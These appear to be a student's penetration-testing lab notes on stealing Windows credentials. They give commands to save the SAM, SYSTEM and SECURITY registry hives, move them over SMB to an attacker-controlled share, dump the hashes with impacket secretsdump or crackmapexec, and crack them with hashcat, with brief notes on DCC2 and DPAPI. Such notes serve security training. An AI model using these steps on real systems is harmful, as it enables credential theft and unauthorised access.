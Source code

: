 Saving copies of the hives
1. Launch cmd.exe with admin privileges
2. Save copies of hives
	- `reg.exe save hklm\sam C:\sam.save
	- `reg.exe save hklm\system C:\system.save`
	- `reg.exe save hklm\security C:\security.save`
3. Then can use various methods to transfer them to attack host
	- Create share with smb server
		- `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <local directory to host share>
			- run this on our attack host to create the share
		- `move sam.save \\<host ip>\<share name>
		- `move security.save \\<host ip>\<share name>
		- `move system.save \\<host ip>\<share name>
			- run these one Windows to transfer hive copies to share

After that,
Dumping hashes with secret dump
1. `locate secretsdump
2. `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	- Will try to rerieve system boot key (SYSTEM) before proceeding to dump the local SAM hashes (SAM)


Can also use crackmapexec to get the hashes instead of all that 
- `crackmapexec smb <target-IP> --local-auth -u <username> -p <password>`
- `netexec smb 10.129.42.198 --local-auth -u <username -p <password>` ``

After that,
Crack the hashes with Hashcat
1. Populate text file with the hashes dumped
	- `sudo vim hashestocrack.txt
		- paste inside here
2. See what hash type to specify
	- `man hashcat`
3. Crack based on hashtype (the hashdump from prev stage will show the type)
	- can identify type with hashid
		- `hashid -m <hash>`
		- Recap: see [[2. Hashcat]]
	- `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
		- 1000: NT

*Dcc2 hashes`
- HKLM\security contains cached domain logon info in form of DCC2 hashes
- eg.
	- `inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25`
- Difficult to crack as it uses PBKDF2, and cannot be used for lateral movement with techniques like Pass-The-Hash
- Hashcat mode is 2100

*DPAPI*
- HKLM\security also dumps machine and use rkeys for DPAPI (Data Protection Application Programming Interface)
	- DPAPI - set of APIs in Windows used to encrypt/decrypt data blobs on per-user basis
	- These blobs utilized by various Windows OS features and third party applications, eg. Internet Explorer uess Password form auto-complete data..
- DPAPI encrypted credentials can be decrypted manually with tools like Impacket's dpapi, mimikatz, or remotely with DonPAPI
